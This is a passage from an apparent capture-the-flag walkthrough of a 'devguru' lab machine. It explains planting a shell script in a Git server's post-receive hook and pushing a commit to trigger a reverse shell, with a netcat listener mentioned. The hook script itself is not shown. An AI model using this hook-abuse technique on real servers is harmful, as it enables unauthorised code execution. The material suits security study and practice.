 Then go to **Settings -> Git Hooks -> Post Receive Hook,** and write a shell script that will be executed after receiving a new commit.

![](/assets/images/devguru/screenshot-19.png)

Start a netcat listener and run the following commands on the attacking machine to get our reverse shell.

```console
root@kali:~$ touch README.md                                                                                                                                
root@kali:~$ git init 
root@kali:~$ git add README.md
root@kali:~$ git commit -m "first commit"
[master (root-commit) 977f570] first commit
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 README.md
root@kali:~$ git remote add origin http://devguru.local:8585/s4rgaz/Test.git
root@kali:~$ git push -u origin master
Username for 'http://devguru.local:8585': s4rgaz
Password for 'http://s4rgaz@devguru.local:8585': 
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 210 bytes | 210.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://devguru.local:8585/s4rgaz/Test.git
 * [new branch]      master -> master
Branch 'master' set up to track remote branch 'master' from 'origin'.
```
